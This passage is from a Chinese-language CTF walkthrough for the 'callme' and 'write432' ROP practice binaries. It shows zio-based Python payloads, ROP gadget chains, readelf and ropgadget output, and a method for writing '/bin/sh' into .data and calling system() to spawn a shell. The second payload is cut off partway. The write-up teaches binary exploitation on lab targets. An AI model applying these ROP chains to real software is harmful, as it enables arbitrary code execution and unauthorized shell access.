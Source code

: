 payload 如下：
```python
from zio import *

payload  = ""
payload += "A"*40

payload += l64(0x00401ab0)
payload += l64(0x1) + l64(0x2) + l64(0x3)
payload += l64(0x00401850)

payload += l64(0x00401ab0)
payload += l64(0x1) + l64(0x2) + l64(0x3)
payload += l64(0x00401870)

payload += l64(0x00401ab0)
payload += l64(0x1) + l64(0x2) + l64(0x3)
payload += l64(0x00401810)

io = zio('./callme')
io.writeline(payload)
io.read()
```

#### write432
这一次，我们已经不能在程序中找到可以执行的语句了，但我们可以利用 gadgets 将 `/bin/sh` 写入到目标进程的虚拟内存空间中，如 `.data` 段中，再调用 system() 执行它，从而拿到 shell。要认识到一个重要的点是，ROP 只是一种任意代码执行的形式，只要我们有创意，就可以利用它来执行诸如内存读写等操作。

这种方法虽然好用，但还是要考虑我们写入地址的读写和执行权限，以及它能提供的空间是多少，我们写入的内容是否会影响到程序执行等问题。如我们接下来想把字符串写入 `.data` 段，我们看一下它的权限和大小等信息：
```
$ readelf -S write432
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  ...
  [16] .rodata           PROGBITS        080486f8 0006f8 000064 00   A  0   0  4
  [25] .data             PROGBITS        0804a028 001028 000008 00  WA  0   0  4
```
可以看到 `.data` 具有 `WA`，即写入（write）和分配（alloc）的权利，而 `.rodata` 就不能写入。

使用工具 ropgadget 可以很方便地找到我们需要的 gadgets：
```
$ ropgadget --binary write432 --only "mov|pop|ret"
...
0x08048670 : mov dword ptr [edi], ebp ; ret
0x080486da : pop edi ; pop ebp ; ret
```

另外需要注意的是，我们这里是 32 位程序，每次只能写入 4 个字节，所以要分成两次写入，还得注意字符对齐，有没有截断字符（`\x00`,`\x0a`等）之类的问题，比如这里 `/bin/sh` 只有七个字节，我们可以使用 `/bin/sh\00` 或者 `/bin//sh`，构造 payload 如下：
```python
from zio import *

pop_edi_ebp = 0x080486da
mov_edi_ebp = 0x08048670

data_addr   = 0x804a028
system_plt  = 0x8048430

payload  = ""
payload += "A"*44
payload += l32(pop_edi_ebp)
payload += l32(data_addr)
payload += "/bin"
payload += l32(mov_edi_ebp)
payload += l32(pop_edi_ebp)
payload += l32(data_addr+4)
```